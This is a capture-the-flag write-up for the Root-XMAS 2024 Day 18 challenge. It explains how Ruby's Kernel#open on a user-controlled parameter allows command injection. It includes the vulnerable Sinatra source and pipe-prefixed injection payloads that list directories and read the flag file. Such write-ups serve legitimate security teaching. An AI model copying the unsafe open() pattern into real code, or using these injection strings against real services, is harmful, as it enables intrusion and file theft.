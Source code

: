 ```yaml
---
title: Root-XMAS 2024 Day 18 - Santa's sweet words
feed: hide
permalink: /RootXMAS_2024_18
date: 18-12-2024
summary: Open sesame
---
```

### summary

`open` in ruby does a lot of things... including executing commands!

### recon

We have a small web page where we can get some quotes from Santa, and we can also download the source of the chall. It's a small Ruby script, so let's put it below in it's entirety:

```ruby
require 'sinatra'

set :bind, '0.0.0.0'
set :show_exceptions, false
set :environment, :production

get '/' do
  send_file File.join(settings.public_folder, 'index.html')
end

get '/love' do
    send_file File.join(settings.public_folder, 'love.html')
end

get '/api/message' do
  number = params[:number]

  file_name = "#{number}.txt"

  content = open(file_name, "rb") { |f| f.read }
  content_type 'application/octet-stream'
  attachment file_name
  body content
end

get '/source' do
  content_type 'text/plain'
  File.read(__FILE__)
end

```

### solution

The interesting endpoint is of course `/api/message` with the `number` parameter, which allows us to read any ".txt" file... but we don't know where is the flag!
if we try to access https://day18.challenges.xmas.root-me.org/api/message?number=flag , we get an `500 Internal error` response 

The juicy lines are:

```ruby
  file_name = "#{number}.txt"
  content = open(file_name, "rb") { |f| f.read }
```

So, not knowing much about Ruby, let's RTFM: [man open](https://apidock.com/ruby/Kernel/open) . Extract:

> *(You can) Open a subprocess and read its output:*
```ruby
cmd = open("|date")
print cmd.gets
cmd.close
```

Oookay... that's a little bit too powerful and dangerous, but useful for us! 
So let's try with any linux command:

```
?number=| ls / ;
	bin
	...
	flag-ruby-expert.txt
	...
```

and we can get the flag!

```
?number=|cat /flag-ruby-expert.txt ;

	RM{Why_d0esn't_Open_Ju5t_Op3n_in_rUbY??}
```


| Previous day | [[Day 17 - Ghost in the shell]]           |
| ------------ | ----------------------------------------- |
| Next day     | [[Day 22 - The date is near]] (timeskip!) |